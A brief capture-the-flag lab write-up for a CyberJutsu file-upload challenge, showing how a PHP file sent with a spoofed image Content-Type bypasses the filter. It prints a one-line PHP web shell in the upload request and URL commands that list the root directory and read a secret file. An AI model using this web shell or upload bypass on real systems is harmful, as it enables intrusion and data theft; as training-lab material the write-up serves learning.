




# Lab Writeup – File Upload 5

## Overview

Platform: CyberJutsu  
Difficulty: Easy

---



---

## 1. Upload File test.jpg and Press submit



---

## 2. Capture packets in Burp Suite and send an HTTP POST request to upload test.php with Content-Type: image/jpeg

```
------WebKitFormBoundaryuOodHKKE3PBGliaW
Content-Disposition: form-data; name="file"; filename="test.php"
Content-Type: image/jpeg

<?php system($_GET[x]); ?>
------WebKitFormBoundaryuOodHKKE3PBGliaW--
```



---

## 3. Access file test.php and add parameter for url

```
https://www.../test.php?x=ls%20-la%20/
```



---

## 4. Find and Read secret.txt to get FLAG

```
https://www.../test.php?x=cat%20/fead248f338-secret.txt
```
